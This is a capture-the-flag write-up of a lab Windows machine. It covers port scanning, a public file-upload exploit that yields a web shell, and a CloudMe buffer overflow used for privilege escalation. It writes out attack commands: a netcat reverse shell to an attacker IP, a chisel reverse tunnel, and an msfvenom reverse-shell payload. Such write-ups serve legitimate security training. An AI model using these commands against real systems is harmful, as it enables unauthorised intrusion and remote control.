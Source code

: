 **Nmap Scan:**
```
# Nmap 7.92 scan initiated Wed Jan  4 22:55:01 2023 as: nmap -sC -sV -p- -vv -oA full 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up, received echo-reply ttl 127 (0.073s latency).
Scanned at 2023-01-04 22:55:02 EST for 207s
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE    REASON          VERSION
7680/tcp open  pando-pub? syn-ack ttl 127
8080/tcp open  http       syn-ack ttl 127 Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-title: mrb3n's Bro Hut
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Jan  4 22:58:29 2023 -- 1 IP address (1 host up) scanned in 208.15 seconds

```

There is a website on port 8080, so I started going thorugh it and meantime I ran a gobuster scan:
```
gobuster dir --url http://10.10.10.198:8080/ --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 30 -x .txt,.php,.html 
```
On the website ```Contact``` Tab I saw this:
![[Pasted image 20230107213809.png]]

I searched online and found an exploit on [Exploit-DB](https://www.exploit-db.com/exploits/48506):

**Vulnerability Description**
Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters.

**Initial shell Proof**
![[Pasted image 20230107214338.png]]

Since it is a web shell I was limited and couldn't move from the current directory I was in, so I moved ```nc.exe``` to the target machine, and created a reverse shell.
```
Kali Machine:
smbserver.py kali .
nc -nlvp 443

Target Machine:
copy \\10.10.14.2\kali\nc.exe
.\nc.exe 10.10.14.2 443 -e powershell.exe
```

---
# Privilege Escalation

First, I enumerated the machine manually, and while grabbing the ```user.txt``` flag I saw this:
![[Pasted image 20230107214936.png]]
```CloudMe_1112``` looked like something worth checking, and I found online a BOF (Buffer OverFlow) exploit on [Exploit-DB](https://www.exploit-db.com/exploits/48389)

I checked the ```netstat``` to see if it was really listening to this ```CloudMe``` service, and it was listening to two ports:
```
netstat -ano

TCP    127.0.0.1:3306         0.0.0.0:0              LISTENING       7088
TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       2820
```
**3306:** MySQL Service, which made sense since it was using the PHP site.
**8888:** The port that was associated with ```CloudMe``` service.

To verify it, I grabbed the process ID and found it on the tasklist:
```
tasklist /v | findstr 2820
CloudMe.exe                   2820                            0     37,444 K Unknown 
```

To use this exploit, I needed a tunnel from my Kali to the target machine.
I used [chisel](https://github.com/jpillora/chisel) for this, and this is how I used it:
```
Kali Machine:
One tab:
smbserver.py kali .
Second tab:
./chisel_1.7.7_linux_amd64 server -p 8000 -reverse

Target Machine:
copy \\10.10.14.2\kali\chisel_1.7.7_windows_amd64
.\chisel.exe client 10.10.14.2:8000 R:8888:127.0.0.1:8888
```

Now, to run the exploit I had to do a few modification:

**Generate a payload:**
```
Original Payload: msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python


Modified Payload:
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=1234 -b '\x00\x0A\x0D' -f python -v payload


-v flag was used to set the output payload variable name
I replaced the original payload with the modified one, listened to port 1234 on another tab and ran the exploit.
```

And it worked:
![[Pasted image 20230107220850.png]]
